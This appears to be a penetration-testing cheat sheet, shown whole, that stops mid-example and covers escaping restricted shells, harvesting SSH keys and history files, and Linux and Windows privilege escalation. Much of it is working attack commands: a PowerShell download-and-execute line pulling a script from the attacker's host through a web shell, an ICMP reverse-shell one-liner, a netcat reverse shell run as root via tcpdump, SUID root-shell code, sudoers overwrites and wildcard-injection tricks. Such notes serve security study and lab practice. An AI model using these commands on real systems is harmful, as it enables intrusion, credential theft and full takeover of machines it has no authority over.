* Parsing the value of SHELLOPTS from the shell environment at startup.
* Redirecting output using the '>', '>|', ", '>&', '&>', and '>>' redirection operators.
* Using the 'exec' built-in to replace the shell with another command.
* Adding or deleting built-in commands with the '-f' and '-d' options to the enable built-in.
* Using the 'enable' built-in command to enable disabled shell built-ins.
* Specifying the '-p' option to the 'command' built-in.
* Turning off restricted mode with 'set +r' or 'set +o restricted 

Real shell implements restricted shells:

* rbash

  ::

   bash -r
   cd
   bash: cd: restricted

* rsh
* rksh

**Getting out of restricted shell**

Reconnaissance
^^^^^^^^^^^^^^

Find out information about the environment.

* Run env to see exported environment variables

* Run 'export -p' to see the exported variables in the shell. This would tell which variables are read-only. Most likely the PATH ($PATH) and SHELL ($SHELL) variables are '-rx', which means we can execute them, but not write to them. If they are writeable, we would be able to escape the restricted shell! 

 * If the SHELL variable is writeable, you can simply set it to your shell of choice (i.e. sh, bash, ksh, etc...). 
 * If the PATH is writeable, then you'll be able to set it to any directory you want. I recommend setting it to one that has commands vulnerable to shell escapes.

* Try basic Unix commands and see what's allowed ls, pwd, cd, env, set, export, vi, cp, mv etc.

Quick Wins
^^^^^^^^^^

* If '/' is allowed in commands just run /bin/sh
* If we can set PATH or SHELL variable
  ::

   export PATH=/bin:/usr/bin:/sbin:$PATH
   export SHELL=/bin/sh

  or if chsh command is present just change the shell to /bin/bash

  ::

   chsh
   password: <password will be asked>
   /bin/bash

* If we can copy files into existing PATH, copy
 
 ::

  cp /bin/sh /current/directory; sh

Taking help of binaries
^^^^^^^^^^^^^^^^^^^^^^^

Some commands let us execute other system commands, often bypassing shell restrictions

* ftp -> !/bin/sh
* gdb -> !/bin/sh
* more/ less/ man -> !/bin/sh
* vi -> :!/bin/sh : Refer `Breaking out of Jail : Restricted Shell <http://airnesstheman.blogspot.in/2011/05/breaking-out-of-jail-restricted-shell.html>`_ and `Restricted Accounts and Vim Tricks in Linux and Unix <http://linuxshellaccount.blogspot.in/2008/05/restricted-accounts-and-vim-tricks-in.html>`_ 
* scp -S /tmp/getMeOut.sh x y : Refer `Breaking out of rbash using scp <http://pentestmonkey.net/blog/rbash-scp>`_ 
* awk 'BEGIN {system("/bin/sh")}'
* find / -name someName -exec /bin/sh \;
* tee

 :: 

  echo "Your evil code" | tee script.sh

* Invoke shell thru scripting language

 * Python

  ::

   python -c 'import os; os.system("/bin/bash")

 * Perl

  ::

   perl -e 'exec "/bin/sh";'

SSHing from outside
^^^^^^^^^^^^^^^^^^^
* Use SSH on your machine to execute commands before the remote shell is loaded:

 ::

  ssh username@IP -t "/bin/sh"

* Start the remote shell without loading "rc" profile ( where most of the limitations are often configured)
 
 ::

  ssh username@IP -t "bash --noprofile"






Gather information from files
-----------------------------

In case of LFI or unprivileged shell, gathering information could be very useful. Mostly taken from `g0tmi1k Linux Privilege Escalation Blog <https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/>`_

Operating System
^^^^^^^^^^^^^^^^
::

  cat /etc/issue
  cat /etc/*-release
    cat /etc/lsb-release      # Debian based
    cat /etc/redhat-release   # Redhat based

/Proc Variables
^^^^^^^^^^^^^^^
::

 /proc/sched_debug	This is usually enabled on newer systems, such as RHEL 6.  It provides information as to what process is running on which cpu.  This can be handy to get a list of processes and their PID number.
 /proc/mounts		Provides a list of mounted file systems.  Can be used to determine where other interesting files might be located
 /proc/net/arp		Shows the ARP table.  This is one way to find out IP addresses for other internal servers.
 /proc/net/route	Shows the routing table information.
 /proc/net/tcp 
 /proc/net/udp  	Provides a list of active connections.  Can be used to determine what ports are listening on the server
 /proc/net/fib_trie	This is used for route caching.  This can also be used to determine local IPs, as well as gain a better understanding of the target's networking structure
 /proc/version	        Shows the kernel version.  This can be used to help determine the OS running and the last time it's been fully updated.

Each process also has its own set of attributes.  If we have the PID number and access to that process, then we can obtain some useful information about it, such as its environmental variables and any command line options that were run.  Sometimes these include passwords.  Linux also has a special proc directory called self which can be used to query information about the current process without having to know it's PID.

::

 /proc/[PID]/cmdline	Lists everything that was used to invoke the process. This sometimes contains useful paths to configuration files as well as usernames and passwords.
 /proc/[PID]/environ	Lists all the environment variables that were set when the process was invoked.  This also sometimes contains useful paths to configuration files as well as usernames and passwords.
 /proc/[PID]/cwd	Points to the current working directory of the process.  This may be useful if you don't know the absolute path to a configuration file.
 /proc/[PID]/fd/[#]	Provides access to the file descriptors being used.  In some cases this can be used to read files that are opened by a process.

The information about Proc variables has been taken from `Directory Traversal, File Inclusion, and The Proc File System <https://blog.netspi.com/directory-traversal-file-inclusion-proc-file-system/>`_

Environment Variables
^^^^^^^^^^^^^^^^^^^^^

::

 cat /etc/profile
 cat /etc/bashrc
 cat ~/.bash_profile
 cat ~/.bashrc
 cat ~/.bash_logout

Configuration Files
^^^^^^^^^^^^^^^^^^^

* Apache Web Server : Helps in figuring out the DocumentRoot where does your webserver files are?

 ::

   /etc/apache2/apache2.conf
   /etc/apache2/sites-enabled/000-default 

User History
^^^^^^^^^^^^

::

  ~/.bash_history
  ~/.nano_history
  ~/.atftp_history
  ~/.mysql_history
  ~/.php_history
  ~/.viminfo

Private SSH Keys / SSH Configuration
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

  ~/.ssh/authorized_keys : specifies the SSH keys that can be used for logging into the user account 
  ~/.ssh/identity.pub
  ~/.ssh/identity
  ~/.ssh/id_rsa.pub
  ~/.ssh/id_rsa
  ~/.ssh/id_dsa.pub
  ~/.ssh/id_dsa
  /etc/ssh/ssh_config  : OpenSSH SSH client configuration files
  /etc/ssh/sshd_config : OpenSSH SSH daemon configuration file


.. _unprivileged-shell-to-privileged-shell:

Unprivileged shell to privileged shell
======================================

Probably, at this point of time, we would have unprivileged shell of user www-data. If you are on Windows, there are particular set of steps. If you are on linux, it would be a good idea to first check privilege escalation techniques from g0tm1lk blog such as if there are any binary executable with SUID bits, if there are any cron jobs running with root permissions. 

If you have become a normal user of which you have a password, it would be a good idea to check sudo -l to check if there are any executables you have permission to run.

Windows Privilege Escalation
----------------------------

If you have a shell/ meterpreter from a windows box, probably, the first thing would be to utilize

SystemInfo
^^^^^^^^^^
Run system info and findout 

* Operating System Version
* Architecture : Whether x86 or x64.
* Hotfix installed

The below system is running x64, Windows Server 2008 R2 with no Hotfixes installed.
::

 systeminfo

 Host Name:                 VICTIM-MACHINE
 OS Name:                   Microsoft Windows Server 2008 R2 Datacenter
 OS Version:                6.1.7600 N/A Build 7600
 OS Manufacturer:           Microsoft Corporation
 OS Configuration:          Standalone Server
 OS Build Type:             Multiprocessor Free
 Registered Owner:          Windows User
 Registered Organization:
 Product ID:                00496-001-0001283-84782
 Original Install Date:     18/3/2017, 7:04:46 ��
 System Boot Time:          7/11/2017, 3:13:00 ��
 System Manufacturer:       VMware, Inc.
 System Model:              VMware Virtual Platform
 System Type:               x64-based PC
 Processor(s):              2 Processor(s) Installed.
                            [01]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2100 Mhz
                            [02]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2100 Mhz
 BIOS Version:              Phoenix Technologies LTD 6.00, 5/4/2016
 Windows Directory:         C:\Windows
 System Directory:          C:\Windows\system32
 Boot Device:               \Device\HarddiskVolume1
 System Locale:             el;Greek
 Input Locale:              en-us;English (United States)
 Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
 Total Physical Memory:     2.048 MB
 Available Physical Memory: 1.640 MB
 Virtual Memory: Max Size:  4.095 MB
 Virtual Memory: Available: 3.665 MB
 Virtual Memory: In Use:    430 MB
 Page File Location(s):     C:\pagefile.sys
 Domain:                    HTB
 Logon Server:              N/A
 Hotfix(s):                 N/A
 Network Card(s):           1 NIC(s) Installed.
                            [01]: Intel(R) PRO/1000 MT Network Connection
                                  Connection Name: Local Area Connection
                                  DHCP Enabled:    No
                                  IP address(es)
                                  [01]: 10.10.10.9


If there are no Hotfixes installed, we can visit 

::

 C:\Windows\SoftwareDistribution\Download

This directory is the temporary location for WSUS. Updates were downloaded here, doesn't mean were installed. Otherwise, we may visit 

::

 C:\Windows\WindowUpdate.log 

which will inform if any hotfixes are installed.

Metasploit Local Exploit Suggestor
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
Metasploit local_exploit_suggester : The module suggests local meterpreter exploits that can be used. The exploits are suggested based on the architecture and platform that the user has a shell opened as well as the available exploits in meterpreter.

  .. Note :: It is utmost important that the meterpreter should be of the same architecture as your target machine, otherwise local exploits may fail. For example. if you have target as windows 64-bit machine, you should have 64-bit meterpreter.

Sherlock and PowerUp Powershell Script
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

* `Sherlock <https://github.com/rasta-mouse/Sherlock>`_ PowerShell script by rastamouse to quickly find missing software patches for local privilege escalation vulnerabilities. If the Metasploit local_exploit_suggester didn't resulted in any exploits. Probably, try Sherlock Powershell script to see if there any vuln which can be exploited.

* `PowerUp <https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc>`_ : PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations.

The above can be executed by 

::

 view-source:10.10.10.X/shell.php?cmd=echo IEX (New-Object Net.WebClient).DownloadString("http://YourIP:8000/Sherlock.ps1"); | powershell -noprofile -

 We execute powershell with noprofile and accept the input from stdin

Windows Exploit Suggestor
^^^^^^^^^^^^^^^^^^^^^^^^^
`Windows Exploit Suggestor <https://github.com/GDSSecurity/Windows-Exploit-Suggester>`_ : This tool compares a targets patch levels against the Microsoft vulnerability database in order to detect potential missing patches on the target. It also notifies the user if there are public exploits and Metasploit modules available for the missing bulletins. Just copy the systeminfo information from the windows OS and compare the database.

If we are getting the below error on running local exploits of getuid in meterpreter

::

 [-] Exploit failed: Rex::Post::Meterpreter::RequestError stdapi_sys_config_getuid: Operation failed: Access is denied.

Possibly, migrate into a new process using post/windows/manage/migrate

Windows Kernel Exploits
^^^^^^^^^^^^^^^^^^^^^^^

`Windows Kernel Exploits <https://github.com/SecWiki/windows-kernel-exploits>`_ contains most of the compiled windows exploits. One way of running these is either upload these on victim system and execute. Otherwise, create a smb-server using Impacket

::

 usage: smbserver.py [-h] [-comment COMMENT] [-debug] [-smb2support] shareName sharePath

 This script will launch a SMB Server and add a share specified as an argument. You need to be root in order to bind to port 445. No authentication will be enforced. Example: smbserver.py -comment 'My share' TMP /tmp

 positional arguments:
   shareName         name of the share to add
   sharePath         path of the share to add


Assuming, the current directory contains our compiled exploit, we can

::

 impacket-smbserver <sharename> `pwd`
 Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

 [*] Config file parsed
 [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
 [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
 [*] Config file parsed
 [*] Config file parsed
 [*] Config file parsed

Once, smbserver is up and running, we can execute code like

::

 view-source:VictimIP/shell.php?cmd=\\YourIP\ShareName\ms15-051x64.exe whoami

 *Considering shell.php is our php oneliner to execute commands.

ICMP Shell
^^^^^^^^^^

Sometimes, inbound and outbound traffic from any port is disallowed and only ICMP traffic is allowed. In that case, we can use `Simple reverse ICMP Shell <https://github.com/inquisb/icmpsh>`_ However, this requires the executable to be present on the system. There's a powershell version of `ICMP Reverse Shell <https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellIcmp.ps1>`_ Sometimes, probably, we can execute powershell code on the machine. In that case, we can use the one-liner powershell code to execute the shell.

::

 powershell -nop -c "$ip='your_ip'; $ic = New-Object System.Net.NetworkInformation.Ping; $po = New-Object System.Net.NetworkInformation.PingOptions; $po.DontFragment = $true; $ic.Send($ip,60*1000, ([text.encoding]::ASCII).GetBytes('OK'), $po); while ($true) { $ry = $ic.Send($ip,60*1000, ([text.encoding]::ASCII).GetBytes(''), $po); if ($ry.Buffer) { $rs = ([text.encoding]::ASCII).GetString($ry.Buffer); $rt = (Invoke-Expression -Command $rs | Out-String ); $ic.Send($ip,60*1000,([text.encoding]::ASCII).GetBytes($rt),$po); } }"


The above code is basically a reduced version of the powershell version of ICMP and have a limited buffer (which means commands whose output is greater than the buffer, won't be displayed!). Now, there's a painful way of transferring files to the victim system which is

* Convert the file/ code which needs to be transferred in to base64. (If possible, remove all the uncessesary code/ comments, this would help us to reduce the length of the base64)
* Utilize the `Add-Content cmdlet <https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/add-content?view=powershell-5.1>`_ to transfer the file to the victim system. Do, remember to transfer the data in chunks as we have limited buffer! Probably, we have to run the below command twice or thrice to transfer the whole base64-encoded chunk.
 
 ::
  
  Add-Content <filename> "Base64 encoded content"

* Once the base64-encoded data is transferred, we can utilize `certutil <https://technet.microsoft.com/en-us/library/cc732443(v=ws.11).aspx>`_ from Microsoft to decode the base64-encoded to normal file.

 ::

  certutil <-decode/ -encode> <input file> <output file>
  -decode Decode a Base64-encoded file
  -encode Encode a file to Base64

* Now, we can execute the file (assuming powershell ps1 file) to get the full powershell ICMP reverse shell with buffer managment so, we would be able to get full output of the commands.

* Now, most of the time after getting the intial shell, probably, we would have figured out user credentials ( let's say from www-data or iisapppool user to normal/ admin user credentials. ) At this point of time, we can use the below code to create a PSCredential.

 ::

  $username = 'UsernameHere';
  $password = 'PasswordHere';
  $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
  $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword 

* Once, we have created a PSCredential, we can use `Invoke-Command <https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/invoke-command>`_  to execute command as that user.

  ::
   
   Invoke-Command -ComputerName localhost -Credential $credential -ScriptBlock {Command to be executed}
   -ComputerName localhost is required as the code is to be executed on localhost, without -ComputerName, InvokeCommand doesn't work.

* Possibly, we can execute the ICMP Shell code to get the shell as the new user.

* One problem, which we gonna face is, when we are running ICMP Shell with different users for example, first with IISWebpool, then with User1, then with user2, we would get multple times IISWebpool as that powershell process (on UDP) is still running. One way to this is Just before launching a new ICMP shell as a different user. 
  
  * Check powershell processes with Show-Process

   ::

    Show-Process -Name *power* "
  
  *  Note down  the PID 
  * Execute shell as the different user 
  * Stop-Process the previous PID






Privilege escalation from g0tm1lk blog
--------------------------------------

Once, we have got the unprivileged shell, it is very important to check the below things

* Are there any binaries with Sticky, suid, guid.
* Are there any world-writable folders, files.
* Are there any world-execuable files.
* Which are the files owned by nobody ( No user )
* Which are the files which are owned by a particular user but are not present in their home directory. (Mostly, the users have files and folders in /home directory. However, that's not always the case.)
* What are the processes running on the machines? (ps aux). Remember, If something like knockd is running, we would come to know that Port Knocking is required.
* What are the packages installed? (dpkg -l). Maybe some vulnerable application is installed ready to be exploited (For example: chkroot version 0.49).
* What are the services running? (netstat -ln)
* Check the entries in the crontab!


What "Advanced Linux File Permissions" are used?
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Sticky bits, SUID & GUID

::

   find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
   find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.
   find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.

   find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID
   for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    # Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)

   # find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
    find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
 
Where can written to and executed from?
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

A few 'common' places: /tmp, /var/tmp, /dev/shm

::

  find / -writable -type d 2>/dev/null      # world-writeable folders
  find / -perm -222 -type d 2>/dev/null     # world-writeable folders
  find / -perm -o w -type d 2>/dev/null     # world-writeable folders
  find / -perm -o w -type f 2>/dev/null     # world-writeable files

  find / -perm -o x -type d 2>/dev/null     # world-executable folders
  find / -perm -o x -type f 2>/dev/null     # world-executable files

  find / \( -perm -o w -perm -o x \) -type d 2>/dev/null   # world-writeable & executable folders

* If the below files are world writable, we could do privilege escalation.

 * /etc/passwd 

  * Passwords are normally stored in /etc/shadow, which is not readable by users. However, historically, they were stored in the world-readable file /etc/passwd along with all account information. 
  * For backward compatibility, if a password hash is present in the second column in /etc/passwd, it takes precedence over the one in /etc/shadow. 
  * Also, an empty second field in /etc/passwd means that the account has no password, i.e. anybody can log in without a password (used for guest accounts). This is sometimes disabled. 
  * If passwordless accounts are disabled, you can put the hash of a password of your choice. You can use the crypt function to generate password hashes, for example

   ::
    
      perl -le 'print crypt("foo", "aa")' to set the password to foo. 

  * It's possible to gain root access even if you can only append to /etc/passwd and not overwrite the contents. That's because it's possible to have multiple entries for the same user, as long as they have different names — users are identified by their ID, not by their name, and the defining feature of the root account is not its name but the fact that it has user ID 0. So you can create an alternate root account by appending a line that declares an account with another name, a password of your choice and user ID 0

Any "problem" files?
^^^^^^^^^^^^^^^^^^^^

Word-writeable, "nobody" files

::

  find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print   # world-writeable files
  find /dir -xdev \( -nouser -o -nogroup \) -print   # Noowner files

Find files/ folder owned by the user
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

After compromising the machine with an unprivileged shell, /home would contains the users present on the system. Also, viewable by checking /etc/passwd. Many times, we do want to see if there are any files owned by those users outside their home directory.

::

  find / -user username 2> /dev/null
  find / -group groupname 2> /dev/null


.. Tip :: Find files by wheel/ adm users or the users in the home directory.

Execution of binary from Relative location than Absolute
--------------------------------------------------------
If we figure out that a suid binary is running with relative locations ( for example let's say backjob is running "id" and "scp /tmp/special ron@ton.home" )( figured out by running strings on the binary ). The problem with this is, that it’s trying to execute a file/script/program on a RELATIVE location (opposed to an ABSOLUTE location like /sbin would be). And we will now exploit this to become root.

so we can create a file in temp:

::

  echo "/bin/sh" >> /tmp/id
  chmod +x /tmp/id

:: 

  www-data@yummy:/tmp$ echo "/bin/sh" >> /tmp/id
  www-data@yummy:/tmp$ export PATH=/tmp:$PATH
  www-data@yummy:/tmp$ which id
  /tmp/id
  www-data@yummy:/tmp$ /opt/backjob
  whoami
  root
  # /usr/bin/id
  uid=0(root) gid=0(root) groups=0(root),33(www-data)

By changing the PATH prior executing the vulnerable suid binary (i.e. the location, where Linux is searching for the relative located file), we force the system to look first into /tmp when searching for “scp” or "id" . So the chain of commands is: /opt/backjob switches user context to root (as it is suid) and tries to run “scp or id” -> Linux searches the filesystem according to its path (here: in /tmp first) -> Our malicious /tmp/scp or /tmp/id gets found and executed as root -> A new bash opens with root privileges.

If we execute a binary without specifying an absolute paths, it goes in order of your $PATH variable. By default, it's something like:

::

  /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

It is important to see .bash_profile file which contains the $PATH

Symlink Creation
----------------

Multiple time, we would find that a suid binary belonging to another user is authorized to read a particular file. For example Let's say there's a suid binary called readExampleConf which can read a file named example.conf as a suid user. This binary can be tricked into reading any other file by creating a Symlink or a softlink. For example if we want to read /etc/shadow file which can be read by suid user. we can do

::

 ln -s /etc/shadow /home/xxxxxx/example.conf
 ln -s /home/xxx2/.ssh/id_rsa /home/xxxxxxx/example.conf

Now, when we try to read example.conf file, we would be able to read the file for which we created the symlink

::

 readExampleConf /home/xxxxxxx/example.conf
 <Contents of shadow or id_rsa



MySQL Privileged Escalation
---------------------------

If mysql ( version 4.x, 5.x ) process is running as root and we do have the mysql root password and we are an unprivileged user, we can utilize `User-Defined Function (UDF) Dynamic Library Exploit <http://www.0xdeadbeef.info/exploits/raptor_udf.c>`_ . A blog named `Gaining a root shell using mysql user defined functions and setuid binaries <https://infamoussyn.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/>`_  

More Information
^^^^^^^^^^^^^^^^

* The MySQL service should really not run as root. The service and all mysql directories should be run and accessible from another account - mysql as an example.

* When MySQL is initialized, it creates a master account (root by default) that has all privileges to all databases on MySQL. This root account differs from the system root account, although it might still have the same password due to default install steps offered by MySQL.

* Commands can be executed inside MySQL, however, commands are executed as the current logged in user.

::

  mysql> \! sh

Cron.d
------

Check cron.d and see if any script is executed as root at any time and is world writeable. If so, you can use to setuid a binary with /bin/bash and use it to get root.

Suid.c

::

  int main(void) {
  setgid(0); setuid(0);
  execl(“/bin/sh”,”sh”,0); }

or

::

 int main(void) {
 setgid(0); setuid(0);
 system("/bin/bash"); }



SUDO -l Permissions
-------------------

Let's see which executables have permission to run as sudo, We have collated the different methods to get a shell if the below applications are suid: nmap, tee, tcpdump, find

nmap suid
^^^^^^^^^

:: 

  nmap --script <(echo 'require "os".execute "/bin/sh"')

or

:: 

  nmap --interactive

tee suid
^^^^^^^^

If tee is suid: tee is used to read input and then write it to output and files. That means we can use tee to read our own commands and add them to any_script.sh, which can then be run as root by a user. If some script is run as root, you may also run. For example, let's say tidy.sh is executed as root on the server, we can write the below code in temp.sh

:: 

  temp.sh
  echo "example_user ALL=(ALL) ALL" > /etc/sudoers 

or 

::

  chmod +w /etc/sudoers to add write properties to sudoers file to do the above

and then

:: 

  cat temp.sh | sudo /usr/bin/tee /usr/share/cleanup/tidyup.sh

which will add contents of temp.sh to tidyup.sh. ( Assuming tidyup.sh is running as root by crontab )

tcpdump
^^^^^^^

The “-z postrotate-command” option (introduced in tcpdump version 4.0.0).

Create a temp.sh ( which contains the commands to executed as root )

:: 

  id
  /bin/nc 192.168.110.1 4444 -e /bin/bash

Execute the command

:: 

  sudo tcpdump -i eth0 -w /dev/null -W 1 -G 1 -z ./temp.sh -Z root

where
 
:: 

  -C file_size : Before  writing a raw packet to a savefile, check whether the file is currently larger than file_size and, if so, close the current savefile and open a new one.  Savefiles after the first savefile will have the name specified with the -w flag, with a number after it, starting at 1 and continuing upward.  The units of file_size are millions of bytes (1,000,000 bytes, not 1,048,576 bytes).

  -W Used  in conjunction with the -C option, this will limit the number of files created to the specified number, and begin overwriting files from the beginning, thus creating a 'rotating' buffer.  In addition, it will name the files with enough leading 0s to support the maximum number of files, allowing them to sort correctly. Used in conjunction with the -G option, this will limit the number of rotated dump files that get created, exiting with status 0 when reaching the limit. If used with -C as well, the behavior will result in cyclical files per timeslice.

  -z postrotate-command Used in conjunction with the -C or -G options, this will make tcpdump run " postrotate-command file " where file is the savefile being closed after each rotation. For example, specifying -z gzip or -z bzip will compress each savefile using gzip or bzip2.

  Note that tcpdump will run the command in parallel to the capture, using the lowest priority so that this doesn't disturb the capture process.

  And in case you would like to use a command that itself takes flags or different arguments, you can always write a shell script that will take the savefile name as the only argument, make the flags &  arguments arrangements and execute the command that you want.

   -Z user 
   --relinquish-privileges=user If tcpdump is running as root, after opening the capture device or input savefile, but before opening any savefiles for output, change the user ID to user and the group ID to the primary group of user.

   This behavior can also be enabled by default at compile time.


find
^^^^

If find is suid, we can use

::

 touch foo
 find foo -exec whoami \;

Here, the foo file ( a blank file ) is created using the touch command as the -exec parameter of the find command will execute the given command for every file that it finds, so by using “find foo” it is ensured they only execute once. The above command will be executed as root.

HollyGrace has mentioned this in `Linux PrivEsc: Abusing SUID <https://www.gracefulsecurity.com/linux-privesc-abusing-suid/>`_




More can be learn `How-I-got-root-with-sudo <https://www.securusglobal.com/community/2014/03/17/how-i-got-root-with-sudo/>`_.


Unix Wildcards
--------------

The below text is directly from the `DefenseCode Unix WildCards Gone Wild <https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt>`_.

Chown file reference trick (file owner hijacking)
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

First really interesting target I've stumbled across is 'chown'. Let's say that we have some publicly writeable directory with bunch of PHP files in there, and root user wants to change owner of all PHP files to 'nobody'. Pay attention to the file owners in the following files list.

:: 

  [root@defensecode public]# ls -al
  total 52
  drwxrwxrwx.  2 user user 4096 Oct 28 17:47 .
  drwx------. 22 user user 4096 Oct 28 17:34 ..
  -rw-rw-r--.  1 user user   66 Oct 28 17:36 admin.php
  -rw-rw-r--.  1 user user   34 Oct 28 17:35 ado.php
  -rw-rw-r--.  1 user user   80 Oct 28 17:44 config.php
  -rw-rw-r--.  1 user user  187 Oct 28 17:44 db.php
  -rw-rw-r--.  1 user user  201 Oct 28 17:35 download.php
  -rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
  -rw-rw-r--.  1 user user   43 Oct 28 17:35 file1.php
  -rw-rw-r--.  1 user user   56 Oct 28 17:47 footer.php
  -rw-rw-r--.  1 user user  357 Oct 28 17:36 global.php
  -rw-rw-r--.  1 user user  225 Oct 28 17:35 header.php
  -rw-rw-r--.  1 user user  117 Oct 28 17:35 inc.php
  -rw-rw-r--.  1 user user  111 Oct 28 17:38 index.php
  -rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php
  -rw-rw----.  1 user user   66 Oct 28 17:35 password.inc.php
  -rw-rw-r--.  1 user user   94 Oct 28 17:35 script.php

Files in this public directory are mostly owned by the user named 'user', and root user will now change that to 'nobody'.

:: 

   [root@defensecode public]# chown -R nobody:nobody \*.php

Let's see who owns files now...

:: 

  root@defensecode public]# ls -al
  total 52
  drwxrwxrwx.  2 user user 4096 Oct 28 17:47 .
  drwx------. 22 user user 4096 Oct 28 17:34 ..
  -rw-rw-r--.  1 leon leon   66 Oct 28 17:36 admin.php
  -rw-rw-r--.  1 leon leon   34 Oct 28 17:35 ado.php
  -rw-rw-r--.  1 leon leon   80 Oct 28 17:44 config.php
  -rw-rw-r--.  1 leon leon  187 Oct 28 17:44 db.php
  -rw-rw-r--.  1 leon leon  201 Oct 28 17:35 download.php
  -rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
  -rw-rw-r--.  1 leon leon   43 Oct 28 17:35 file1.php
  -rw-rw-r--.  1 leon leon   56 Oct 28 17:47 footer.php
  -rw-rw-r--.  1 leon leon  357 Oct 28 17:36 global.php
  -rw-rw-r--.  1 leon leon  225 Oct 28 17:35 header.php
  -rw-rw-r--.  1 leon leon  117 Oct 28 17:35 inc.php
  -rw-rw-r--.  1 leon leon  111 Oct 28 17:38 index.php
  -rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php
  -rw-rw----.  1 leon leon   66 Oct 28 17:35 password.inc.php
  -rw-rw-r--.  1 leon leon   94 Oct 28 17:35 script.php

Something is not right. What happened? Somebody got drunk here. Superuser tried to change files owner to the user:group 'nobody', but somehow, all files are owned by the user 'leon' now. If we take closer look, this directory previously contained just the following two files created and owned by the user 'leon'.

:: 

  -rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
  -rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php

Thing is that wildcard character used in 'chown' command line took arbitrary '--reference=.drf.php' file and passed it to the chown command at the command line as an option.

Let's check chown manual page (man chown):

:: 

   --reference=RFILE     use RFILE's owner and group rather than specifying OWNER:GROUP values

So in this case, '--reference' option to 'chown' will override 'nobody:nobody' specified as the root, and new owner of files in this directory will be exactly same as the owner of '.drf.php', which is in this case user 'leon'. Just for the record, '.drf' is short for Dummy Reference File. :)

To conclude, reference option can be abused to change ownership of files to some arbitrary user. If we set some other file as argument	to the --reference option, file that's owned by some other user, not 'leon', in that case he would become owner of all files in this directory. With this simple chown parameter pollution, we can trick root into changing ownership of files to arbitrary users, and practically "hijack" files that are of interest to us.

Even more, if user 'leon' previously created a symbolic link in that directory that points to let's say /etc/shadow, ownership of /etc/shadow would also be changed to the user 'leon'.


Chmod file reference trick
^^^^^^^^^^^^^^^^^^^^^^^^^^

Another interesting attack vector similar to previously described 'chown' attack is 'chmod'. Chmod also has --reference option that can be abused to specify arbitrary permissions on files selected with asterisk wildcard. Chmod manual page (man chmod):

:: 

  --reference=RFILE    :   use RFILE's mode instead of MODE values

Example is presented below.

:: 

    [root@defensecode public]# ls -al
    total 68
    drwxrwxrwx.  2 user user  4096 Oct 29 00:41 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rw-rw-r--.  1 user user 20480 Oct 28 19:13 admin.php
    -rw-rw-r--.  1 user user    34 Oct 28 17:47 ado.php
    -rw-rw-r--.  1 user user   187 Oct 28 17:44 db.php
    -rw-rw-r--.  1 user user   201 Oct 28 17:43 download.php
    -rwxrwxrwx.  1 leon leon     0 Oct 29 00:40 .drf.php
    -rw-rw-r--.  1 user user    43 Oct 28 17:35 file1.php
    -rw-rw-r--.  1 user user    56 Oct 28 17:47 footer.php
    -rw-rw-r--.  1 user user   357 Oct 28 17:36 global.php
    -rw-rw-r--.  1 user user   225 Oct 28 17:37 header.php
    -rw-rw-r--.  1 user user   117 Oct 28 17:36 inc.php
    -rw-rw-r--.  1 user user   111 Oct 28 17:38 index.php
    -rw-r--r--.  1 leon leon     0 Oct 29 00:41 --reference=.drf.php
    -rw-rw-r--.  1 user user    94 Oct 28 17:38 script.php

Superuser will now try to set mode 000 on all files.

:: 

  [root@defensecode public]# chmod 000 *

Let's check permissions on files...

:: 

    [root@defensecode public]# ls -al
    total 68
    drwxrwxrwx.  2 user user  4096 Oct 29 00:41 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rwxrwxrwx.  1 user user 20480 Oct 28 19:13 admin.php
    -rwxrwxrwx.  1 user user    34 Oct 28 17:47 ado.php
    -rwxrwxrwx.  1 user user   187 Oct 28 17:44 db.php
    -rwxrwxrwx.  1 user user   201 Oct 28 17:43 download.php
